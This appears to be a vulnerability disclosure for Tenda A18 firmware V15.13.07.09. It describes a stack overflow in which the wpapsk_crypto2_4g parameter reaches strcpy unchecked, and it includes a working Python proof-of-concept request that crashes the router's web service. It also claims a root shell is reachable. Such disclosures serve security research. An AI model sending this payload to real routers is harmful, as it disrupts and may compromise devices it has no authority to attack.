


# Tenda A18 V15.13.07.09 Stack overflow vulnerability by fromSetWirelessRepeat

## Firmware information

- Manufacturer's address: https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

I have verified that **Tenda A18 V15.13.07.09** products have stack overflow vulnerability, and other series products have not been verified for the time being.

## Vulnerability details

`fromSetWirelessRepeat`



`fromSetWirelessRepeat` gets the parameter **wpapsk_crypto2_4g** from the user input, but does not verify the length of the user input, and then call `set_repeat24` function.



`set_repeat24` also does not check the parameter, and directly uses the `strcpy` function to assign the parameter to the stack, resulting in **stack overflow vulnerability**.


## POC

```python
import requests


def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {
    'configured2_4g': 'ture',
    'configured5g': 'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'a' * 0x100,
    'wpapsk_key2_4g': '1234567890'
}

headers = {
    'Host': '192.168.0.1',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.0.1/goform/WifiExtraSet'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
```

By running the poc, you can see the crash.

With careful construction of the exp, we can finally get the root shell.


